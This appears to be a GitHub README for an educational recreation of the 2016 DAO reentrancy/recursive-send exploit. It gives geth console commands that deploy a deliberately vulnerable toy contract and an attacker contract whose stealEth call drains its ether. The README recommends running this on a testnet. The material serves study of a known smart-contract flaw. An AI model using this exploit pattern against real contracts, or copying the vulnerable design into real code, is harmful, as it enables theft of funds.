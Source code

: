 # mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit
Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `compile_solidity.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./compile_solidity.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');

You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its all lowercase name (`dumbdao`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
Optional: run the event listener javascript file - sometimes its helpful to have feedback on the javascript console about which events are runnning:

        loadScript('/Path/to/your/ws/mock-dao-hack/events.js');

First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbdao.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});

    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbdao.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbdao.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbdao.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});

    //check Token balance for attacker
    web3.fromWei(dumbdao.balances(attacker.address));

The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.


#Reentrancy Attack - WIP
To pull off the DAO hack, the attacker used a combination of the recursive call attack and another exploit called the reentrancy attack. This second attack consisted of the attacker transfering his DAO tokens to a different address as the last step of his recursive eploit. After the recurive attack ends and the DAO tries to update the attacker's DAO token balance which is now already 0 because of the transfer. The attacker is now free to transfer the tokens back into the attacker contract and run the exploit again.

My reentrancy attack is still a work in progress, my DAO may be too oversimplified for it to work properly.

#Further reading
DAO Hack FAQ:
https://www.reddit.com/r/ethereum/comments/4os7l5/the_big_thedao_heist_faq/

In depth Analysis:
http://vessenes.com/deconstructing-thedao-attack-a-brief-code-tour/

http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/

https://pdaian.com/blog/chasing-the-dao-attackers-wake/
